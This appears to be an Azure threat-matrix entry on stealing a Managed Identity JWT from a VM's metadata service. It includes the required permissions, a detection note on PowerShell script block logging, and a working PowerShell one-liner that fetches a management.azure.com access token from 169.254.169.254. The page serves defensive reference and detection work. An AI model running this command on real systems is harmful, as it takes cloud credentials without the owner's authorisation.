 # AZT601.1 - Steal Managed Identity JsonWebToken: Virtual Machine IMDS Request

By utilizing access to IMDS, an attacker can request a JWT for a Managed Identity on an Azure VM if they have access to execute commands on the system.

!!! info "Resource" 

	Virtual Machine

!!! success "Actions" 

	* Microsoft.Compute/virtualMachines/write
	* Microsoft.Compute/virtualMachines/extensions/*

!!! example "Examples"

	=== "PowerShell"
		
		[`#!powershell powershell.exe -c $a=Invoke-Restmethod -Uri 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01"&"resource=https://management.azure.com/' -Method GET -Headers @{Metadata='true'} -UseBasicParsing;$a.access_token`](https://docs.microsoft.com/en-us/azure/active-directory/managed-identities-azure-resources/how-to-use-vm-token)

    === "Azure Portal"

		![vmimds](vmimds.PNG)

!!! abstract "Detections"

	The detection will be based off of the [Command Execution](../../Execution/AZT301/AZT301.md) technique chosen. If using RDP, then no logs will be generated in Azure. 
	Since the command to retrieve the JWT requires local PowerShell execution, script block logging will reveal the request used to gather the token.

!!! faq "Additional Resources"

	* [https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service?tabs=windows](https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service?tabs=windows)
	* [https://docs.microsoft.com/en-us/azure/active-directory/managed-identities-azure-resources/how-to-use-vm-token](https://docs.microsoft.com/en-us/azure/active-directory/managed-identities-azure-resources/how-to-use-vm-token)